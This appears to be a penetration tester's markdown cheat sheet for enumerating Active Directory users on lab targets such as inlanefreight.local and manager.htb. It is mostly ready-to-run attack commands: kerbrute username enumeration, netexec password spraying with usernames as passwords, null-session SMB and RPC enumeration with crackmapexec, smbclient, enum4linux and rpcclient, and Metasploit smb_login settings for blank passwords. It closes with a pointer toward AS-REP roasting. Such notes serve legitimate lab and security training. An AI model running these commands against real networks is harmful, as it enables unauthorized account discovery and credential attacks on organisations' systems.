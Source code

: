 # Enumerating Users with Kerbrute -p88
```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```
```
https://github.com/ropnop/kerbrute/releases
```
```
kerbrute userenum /opt/SecLists/Usernames/cirt-default-usernames.txt --dc dc01.manager.htb -d manager.htb
```
```
./kerbrute userenum --dc <ip> -d <domainname> /usr/share/seclists/usernames/xato-net-10-millionusernames.txt
```
```
grep "VALID USERNAME" users.txt | sed -E 's/.* ([^@ ]+)@.*/\1/’
```
**Check out nmap DNS or DNS computer name to determine the --dc flag**
**Don't forget to add dc01 to your /etc/hosts file**
## Trying to login with passwords same as user
```
netexec smb manager.htb -u users -p users --continue-on-success --no-brute
```

# SMB NULL Session to Pull User List -p139,445
```
crackmapexec smb 172.16.5.5 --users
```
```
smbclient -N -L \\\\<target ip>
```
```
smbclient -L //10.10.10.178 -U ""
```
## enum4linux
```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
We can try to see if we can log in as any of these users using a tool like the smb_login module in Metasploit
If we find a default Password we can try to login with it using the usernames found
We can put these users in a file, users.txt, and see if any of them have no password or a trivial password set. We will use the Metasploit module smb_login.
```
msf5 auxiliary(scanner/smb/smb_login) > set BLANK_PASSWORDS true
```
```
msf5 auxiliary(scanner/smb/smb_login) > set BLANK_PASSWORDS false
```
```
msf5 auxiliary(scanner/smb/smb_login) > set USER_AS_PASS true
```
# rpcclient
```
rpcclient -U "" -N 172.16.5.5
```
```
rpcclient $> enumdomusers 
```
## From the rpc enumeration users, We can try AES-Rep roasting
